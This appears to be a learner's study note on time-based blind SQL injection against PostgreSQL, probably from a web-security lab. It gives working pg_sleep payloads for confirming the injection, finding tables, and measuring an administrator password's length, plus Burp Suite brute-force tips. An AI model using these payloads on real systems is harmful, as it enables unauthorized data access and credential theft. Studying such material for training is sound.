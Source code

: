 Steps
- Prove parameter is vulnerable
- Find Column Name ??? (REVIEW)
- Find Tables
- Length of Variable (>,<,<=,>=)
- Enumeration of variable (abc...)

Example Cookie Request
![[Pasted image 20221206184026.png]]

Prove Vulnerable parameter
```
'                                         ---> Not Working with time base injection

' || (SELECT pg_sleep(10))--              ---> Return 10 seconds delait
```

||                           ---> Simply mean to the query that a new query will be made in the same query

- Try multiples type of DB query on the injection to see if it's vulnerable [CHEAT SHEET](Cheat Sheet ---> https://portswigger.net/web-security/sql-injection/cheat-sheet)
	- ex: pg_sleep
	- SLEEP
	- ...


**Find Column Name ???**
```

```


Find Tables
```
' || (select case when (1=0) then pg_sleep(10) else pg_sleep(-1) end)--

' || (select case when (COLUMN='administrator') then pg_sleep(10) else pg_sleep(-1) end from TABLE)--
```

CASE WHEN                             ---> Verify if the query is true are not (user exist or not)
(1=0) or (1=1)                            ---> Testing query for True and False query
ELSE                                          ---> If response is False (user don't exist, else respond '' -> 200)
TABLE                                        ---> Table we are interested in
COLUMN                                   ---> Column we are interested in


Length of Variable
```
' || (select case when (COLUMN='administrator' and LENGTH(COLUMN_password)>20) then pg_sleep(10) else pg_sleep(-1) end from TABLE)--
```

Burpsuite Testing
	- Create new ressource pool when bruteforcing length with 1 threat (10 wont allow the reply time to responde and be captured by BurpSuite)
	- Also when launching attack add a column for response time (Response Received)
